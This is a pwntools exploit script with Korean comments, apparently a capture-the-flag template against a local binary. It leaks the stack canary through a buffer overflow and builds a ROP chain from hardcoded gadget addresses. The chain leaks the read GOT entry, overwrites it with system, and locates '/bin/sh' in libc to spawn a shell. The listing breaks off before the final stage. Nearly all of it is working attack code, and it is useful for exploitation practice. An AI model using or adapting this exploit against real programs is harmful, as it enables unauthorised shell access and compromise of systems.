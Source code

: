 ```
from pwn import *

##########
# RUN PROGRAM
##########
p = process(PROGRAM_PATH)
e = ELF(PROGRAM_PATH)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 특정 libc 파일을 적용하고 싶을 때
# p = process('PROGRAM_PATH', env= {"LD_PRELOAD" : "./libc.so.6"})
# libc = ELF('./libc.so.6')

buffer_length = 0x30  # exploit 할 코드에 따라 변경 필요

##########
# LEAK CANARY
##########
payload = b'A'*(buffer_length + 8 + 1) # overwrite buffer_length + 8(other local variable) + 1(canary_first 1 byte null)
# p.sendafter(b'Buf: ', payload)
p.send(payload)
p.recvuntil(payload)
canary = b'\x00' + p.recvn(7)
print('canary:',hex(u64(canary)))

##########
# LEAK ADDRESS OF LIBC FUNC
##########
read_got = e.got['read']  # read 함수의 got
read_plt = e.plt['read']  # read 함수의 plt
write_plt = e.plt['write']  # write 함수의 plt
pop_rdi_ret = 0x0000000000400853  # pop rdi; ret 구문의 주소
pop_rsi_pop_r15_ret = 0x0000000000400851  # pop rsi; pop r15; ret 구문의 주소
ret = 0x0000000000400596  # ret 구문의 주소, 리턴 가젯

payload = b'A'*(buffer_length + 8) + canary + b'B'*8  # overwrite buffer_length + 8(other local variable) + canary(8) + SFP(8)
payload += p64(pop_rdi_ret) + p64(1)  # rdi 에 1 을 적용하도록 gadget 배치
payload += p64(pop_rsi_pop_r15_ret) + p64(read_got) + p64(0)  # rsi 에 read_got 을 넣고, r15에 0(아무값) 을 넣는다.
payload += p64(write_plt)  # return 주소를 write_plt 로 변경한다.
# write(1,read_got) 가 완성되었다. payload를 프로그램에 넘기면 read 함수의 주소를 출력하게 된다.

##########
# CHANGE GOT OF READ INTO ADDR OF SYSTEM
##########
# 앞서 libc_base를 알아내기 위해 buffer overflow로 read 함수의 got 영역을 출력하도록 payload를 작성했다.
# payload에 system("/bin/sh") 를 호출하기 위한 코드를 이어서 작성한다.
# read_got 에 system 함수의 주소를 덮어쓰기 위해 read 함수를 한 번 더 호출한다.
# read(0, read_got, arg3) 를 호출하여 입력을 한 번 더 받도록 한다.
# arg3, 즉 rdx 에 6 이상의 값이 들어가야 하지만, ROPgadget 명령으로 확인 결과 rdx 가 포함된 gadget이 없다면 운에 맡기고 호출한다.
payload += p64(pop_rdi_ret) + p64(0)  # rdi 에 0 값 적용
payload += p64(pop_rsi_pop_r15_ret) + p64(read_got) + p64(0)  # rsi 에 read_got 주소 적용, r15 pop을 위한 더미값 0 적용
# read 함수의 plt 를 호출하면 system 함수가 호출되도록 got를 변경한다.
payload += p64(read_plt)  # read 함수 호출

# 참조
offset_bin_sh = next(libc.search(b'/bin/sh'))  # libc에 위치한 "/bin/sh" 문자열의 위치를 추출할 수 있다.
print('offset /bin/sh:', hex(offset_bin_sh))

##########
```